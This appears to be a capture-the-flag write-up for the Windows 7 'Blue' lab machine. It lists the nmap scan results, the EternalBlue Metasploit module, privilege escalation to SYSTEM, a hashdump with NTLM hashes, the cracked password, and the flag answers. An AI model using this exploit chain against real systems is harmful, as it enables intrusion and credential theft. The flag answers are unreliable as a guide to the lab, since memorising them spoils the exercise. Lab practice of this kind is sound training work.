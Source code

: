<pre>
Machine IP: 10.10.255.187

Enum:
    nmap -sV -sC -oA nmap/blue 10.10.255.187
Open Ports:
    135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
Vuln port->     445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service 
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows





exploits :
exploit/windows/smb/ms17_010_eternalblue
post/multi/manage/shell_to_meterpreter


Meterpreter > getsystem to get administrator perms


Meterpreter > hashdump to get hashes and user names
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


Crack the hash with john:
Echo “aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d” > pwd_hash.txt = Jon:alqfna22


Flags:
access_the_machine 
sam_database_elevated_access
admin_documents_can_be_valuable 
Find all flags:
dir *flag*.txt /s

Go with cd and type flags :D
</pre>
